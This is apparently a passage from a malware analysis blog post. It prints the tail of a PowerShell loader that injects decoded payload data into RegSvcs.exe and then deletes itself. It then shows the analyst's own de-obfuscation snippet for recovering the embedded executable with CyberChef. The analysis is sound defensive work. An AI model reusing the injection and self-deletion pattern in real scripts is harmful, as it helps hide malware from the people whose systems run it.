 ``` powershell
	Start-Sleep -Seconds 2
    $invokeMethod.Invoke($nullArray, ($v4Path, $data2))
	Start-Sleep -Seconds 2
    $invokeMethod.Invoke($nullArray, ($v2Path, $data2))
	Start-Sleep -Seconds 2
    $invokeMethod.Invoke($nullArray, ($v3Path, $data2))
}

# Execute the command
ExecuteCommand

$scriptPath = $MyInvocation.MyCommand.Path

# Check if the script path exists
if (Test-Path $scriptPath) {
    # Try to delete the script
    try {
        Remove-Item -Path $scriptPath -Force
        Write-Output "Script has been deleted successfully."
    } catch {
        Write-Error "Failed to delete the script. Error: $_"
    }
} else {
    Write-Error "Script path does not exist."
}
```

It appears that this is the code we are interested in to extract an executable, it looks like when this script is executed, the given code is injected into RegSvcs.exe.

We can manipulate the code to get the deobfuscated binary data and write the binary file to disk using CyberChef.

We'll simply isolate the binary data, add the manipulation variables and echo the last variable, outputting the results to a new file.
 
``` powershell
$binaryData1 = (Long binary string) 
$pinch = $binaryData1.split('O')[1].split('l')[0]
$rPinchr = -join $pinch[-1..-($pinch.Length)]
$pinchs = $rPinchr.replace('*', '000000000000000000').replace('-', '111').replace('!', '1000000').replace('^', '100000')

echo $pinchs > C:\Users\mzheader\Desktop\binary.txt
```

We'll then upload the result to CyberChef and use a 'From Binary' operator to extract the executable.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/ffe7cfb7-9905-46b3-8eb1-edb34151723f)

## Analysing the Binary
